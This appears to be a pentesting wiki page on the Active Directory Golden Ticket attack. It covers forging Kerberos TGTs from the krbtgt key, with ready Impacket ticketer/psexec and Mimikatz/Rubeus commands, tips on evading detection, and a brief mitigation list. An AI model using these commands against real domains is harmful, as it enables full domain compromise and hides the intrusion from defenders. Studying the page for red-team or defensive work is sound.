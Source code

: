 # Golden Ticket

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.bytebreach.xyz/courses/arte"><strong>htARTE (ByteBreach AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support ByteBreach:

* If you want to see your **company advertised in ByteBreach** or **download ByteBreach in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/khulnasoft)!
* Get the [**official PEASS & ByteBreach swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@khulnasoftm**](https://twitter.com/bytebreach_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**ByteBreach**](https://github.com/khulnasoft/bytebreach) and [**ByteBreach Cloud**](https://github.com/khulnasoft/bytebreach-cloud) github repos.

</details>

## Golden ticket

A **Golden Ticket** attack consist on the **creation of a legitimate Ticket Granting Ticket (TGT) impersonating any user** through the use of the **NTLM hash of the Active Directory (AD) krbtgt account**. This technique is particularly advantageous because it **enables access to any service or machine** within the domain as the impersonated user. It's crucial to remember that the **krbtgt account's credentials are never automatically updated**.

To **acquire the NTLM hash** of the krbtgt account, various methods can be employed. It can be extracted from the **Local Security Authority Subsystem Service (LSASS) process** or the **NT Directory Services (NTDS.dit) file** located on any Domain Controller (DC) within the domain. Furthermore, **executing a DCsync attack** is another strategy to obtain this NTLM hash, which can be performed using tools such as the **lsadump::dcsync module** in Mimikatz or the **secretsdump.py script** by Impacket. It's important to underscore that to undertake these operations, **domain admin privileges or a similar level of access is typically required**.

Although the NTLM hash serves as a viable method for this purpose, it is **strongly recommended** to **forge tickets using the Advanced Encryption Standard (AES) Kerberos keys (AES128 and AES256)** for operational security reasons.


{% code title="From Linux" %}
```bash
python ticketer.py -nthash 25b2076cda3bfd6209161a6c78a69c1c -domain-sid S-1-5-21-1339291983-1349129144-367733775 -domain jurassic.park stegosaurus
export KRB5CCNAME=/root/impacket-examples/stegosaurus.ccache
python psexec.py jurassic.park/stegosaurus@lab-wdc02.jurassic.park -k -no-pass
```
{% endcode %}

{% code title="From Windows" %}
```bash
#mimikatz
kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt
.\Rubeus.exe ptt /ticket:ticket.kirbi
klist #List tickets in memory

# Example using aes key
kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /aes256:430b2fdb13cc820d73ecf123dddd4c9d76425d4c2156b89ac551efb9d591a439 /ticket:golden.kirbi
```
{% endcode %}

**Once** you have the **golden Ticket injected**, you can access the shared files **(C$)**, and execute services and WMI, so you could use **psexec** or **wmiexec** to obtain a shell (looks like yo can not get a shell via winrm).

### Bypassing common detections

The most frequent ways to detect a golden ticket are by **inspecting Kerberos traffic** on the wire.  By default, Mimikatz **signs the TGT for 10 years**, which will stand out as anomalous in subsequent TGS requests made with it.

`Lifetime : 3/11/2021 12:39:57 PM ; 3/9/2031 12:39:57 PM ; 3/9/2031 12:39:57 PM`

Use the `/startoffset`, `/endin` and `/renewmax` parameters to control the start offset, duration and the maximum renewals (all in minutes).

```
Get-DomainPolicy | select -expand KerberosPolicy
```

Unfortunately, the TGT's lifetime is not logged in 4769's, so you won't find this information in the Windows event logs.  However, what you can correlate is **seeing 4769's without a prior 4768**.  It's **not possible to request a TGS without a TGT**, and if there is no record of a TGT being issued, we can infer that it was forged offline.

In order to **bypass this detection** check the diamond tickets:

{% content-ref url="diamond-ticket.md" %}
[diamond-ticket.md](diamond-ticket.md)
{% endcontent-ref %}

### Mitigation

* 4624: Account Logon
* 4672: Admin Logon
* `Get-WinEvent -FilterHashtable @{Logname='Security';ID=4672} -MaxEvents 1 | Format-List –Property`

Other little tricks defenders can do is **alert on 4769's for sensitive users** such as the default domain administrator account.

## References
* [https://www.tarlogic.com/blog/how-to-attack-kerberos/](https://www.tarlogic.com/blog/how-to-attack-kerberos/)
* [https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberos-golden-tickets] (https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberos-golden-tickets)

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.bytebreach.xyz/courses/arte"><strong>htARTE (ByteBreach AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support ByteBreach:

* If you want to see your **company advertised in ByteBreach** or **download ByteBreach in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/khulnasoft)!
* Get the [**official PEASS & ByteBreach swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@khulnasoftm**](https://twitter.com/bytebreach_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**ByteBreach**](https://github.com/khulnasoft/bytebreach) and [**ByteBreach Cloud**](https://github.com/khulnasoft/bytebreach-cloud) github repos.

</details>
